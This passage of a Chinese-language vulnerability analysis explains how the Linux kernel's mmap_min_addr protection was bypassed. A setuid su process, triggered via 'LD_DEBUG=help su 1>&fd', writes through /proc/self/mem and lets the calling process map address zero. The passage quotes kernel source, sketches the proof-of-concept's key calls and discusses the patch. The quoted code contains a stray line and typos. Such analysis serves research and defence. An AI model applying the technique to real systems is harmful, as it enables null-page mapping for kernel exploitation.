	return expand_downwards(vma, address);
}

/*
 * vma is the first one with address < vma->vm_start.  Have to extend vma.
 */
int expand_downwards(struct vm_area_struct *vma,
				   unsigned long address)
{
	struct mm_struct *mm = vma->vm_mm;
	struct vm_area_struct *prev;
	int error;

	address &= PAGE_MASK;
	error = security_mmap_addr(address);//expand_downwards函数中做的首先就是调用security_mmap_addr函数检查权限。
	if (error)
		return error;

	/* Enforce stack_guard_gap */
	prev = vma->vm_prev;
	/* Check that both stack segments have the same anon_vma? */
	if (prev && !(prev->vm_flags & VM_GROWSDOWN) &&
			(prev->vm_flags & (VM_WRITE|VM_READ|VM_EXEC))) {
		if (address - prev->vm_end < stack_guard_gap)
			return -ENOMEM;
	}

	/* We must make sure the anon_vma is allocated. */
	if (unlikely(anon_vma_prepare(vma)))
		return -ENOMEM;

	/*
	 * vma->vm_start/vm_end cannot change under us because the caller
	 * is required to hold the mmap_sem in read mode.  We need the
	 * anon_vma lock to serialize against concurrent expand_stacks.
	 */
	anon_vma_lock_write(vma->anon_vma);

	/* Somebody else might have raced and expanded it already */
	if (address < vma->vm_start) {
		unsigned long size, grow;

		size = vma->vm_end - address;
		grow = (vma->vm_start - address) >> PAGE_SHIFT;

		error = -ENOMEM;
		if (grow <= vma->vm_pgoff) {
			error = acct_stack_growth(vma, size, grow);
			if (!error) {
				/*
				 * vma_gap_update() doesn't support concurrent
				 * updates, but we only hold a shared mmap_sem
				 * lock here, so we need to protect against
				 * concurrent vma expansions.
				 * anon_vma_lock_write() doesn't help here, as
				 * we don't guarantee that all growable vmas
				 * in a mm share the same root anon vma.
				 * So, we reuse mm->page_table_lock to guard
				 * against concurrent vma expansions.
				 */
				spin_lock(&mm->page_table_lock);
				if (vma->vm_flags & VM_LOCKED)
					mm->locked_vm += grow;
				vm_stat_account(mm, vma->vm_flags, grow);
				anon_vma_interval_tree_pre_update_vma(vma);
				vma->vm_start = address;
				vma->vm_pgoff -= grow;
				anon_vma_interval_tree_post_update_vma(vma);
				vma_gap_update(vma);
				spin_unlock(&mm->page_table_lock);

				perf_event_mmap(vma);
			}
		}
	}
	anon_vma_unlock_write(vma->anon_vma);
	khugepaged_enter_vma_merge(vma, vma->vm_flags);
	validate_mm(mm);
	return error;
}

```

- security_mmap_addr 函数是对cap_mmap_addr函数的封装
- cap_mmap_addr 检查特定地址是否能被映射， 如果允许此映射，则返回 0 * 如果不允许，则返回 -EPERM

- 终于来到了漏洞点，cap_mmap_addr函数中检查的是current_cred()，是执行write操作的进程的cred而不是vma被改变的进程的cred。在POC中是通过system函数调用LD_DEBUG=help su 1>&%d命令执行的write操作，当然是另外一个进程。
```c
static inline int security_mmap_addr(unsigned long addr)
{
	return cap_mmap_addr(addr);
}
/*
 * cap_mmap_addr - check if able to map given addr
 * @addr: address attempting to be mapped
 *
 * If the process is attempting to map memory below dac_mmap_min_addr they need
 * CAP_SYS_RAWIO.  The other parameters to this function are unused by the
 * capability security module.  Returns 0 if this mapping should be allowed
 * -EPERM if not.
 */
int cap_mmap_addr(unsigned long addr)
{
	int ret = 0;
a
	if (addr < dac_mmap_min_addr) {
		ret = cap_capable(current_cred(), &init_user_ns, CAP_SYS_RAWIO,
				  SECURITY_CAP_AUDIT);
		/* set PF_SUPERPRIV if it turns out we llow the low mmap */
		if (ret == 0)
			current->flags |= PF_SUPERPRIV;
	}
	return ret;
}


```
- 让我们回到poc 关键调用是sprintf(cmd, "LD_DEBUG=help su 1>&%d",fd);
  - 其中 fd 来自    int fd = open("/proc/self/mem", O_RDWR); 而随着循环 ，fd指向当前进程的  0x9000-》0x8000-》.....0x0， 此前当前进程通过mmap 获得了0x10000 开始 0x1000字节的内存
  - sprintf(cmd, "LD_DEBUG=help su 1>&%d",fd); 中命令执行后启动了新root进程，该 ***root权限进程*** 为了将1写入 ***当前进程***0的内存的地址，会触发 security_mmap_addr 判断，因为执行写入操作的是roo进程，所以验证通过，root权限进程将当前进程 0 内存地址完成映射（通过vma向低内存地址扩展的形式），之后当前进程即使没有root权限，也能访问本进程的0内存地址


- 完整调用链：mem_write -> mem_rw -> access_remote_vm -> __access_remote_vm -> get_user_pages_remote -> __get_user_pages_locked -> __get_user_pages -> find_extend_vma -> expand_stack -> expand_downwards -> security_mmap_addr -> cap_mmap_addr


# 补丁情况
- expand_downwards函数不再调用security_mmap_addr函数了，直接和mmap_min_addr比较。
- mmap_min_addr 是一个全局变量，通常定义在内核参数配置文件中，例如 security/Kconfig 或者 include/linux/mm.h 中。它是一个 unsigned long 类型的变量。
- mmap_min_addr 是 Linux 内核中的一个全局变量，用来指定允许用户进程进行 mmap 内存映射时的最小地址。其主要作用是提高系统的安全性，防止某些类型的攻击（例如 NULL 指针解引用攻击）。


# 参考资料作者评价
- 笔者以为这样修补没有真正解决问题。这是一个逻辑漏洞，根本原因在于可以通过两个进程绕过security_mmap_addr函数中cap_capable(current_cred()……)的检查逻辑，补丁只是在expand_downwards函数中不再调用security_mmap_addr函数了，是否存在其它调用security_mmap_addr的函数？当然存在，但是笔者大致翻看了一下，似乎只有get_user_pages_remote函数才能够跨进程调用到security_mmap_addr函数(也有可能是笔者眼拙未能找到)。同样是内存管理中的逻辑问题，这个漏洞各方面来讲巧妙程度可能不亚于DirtyCow，唯一遗憾的在于不能直接提权，显得鸡肋了。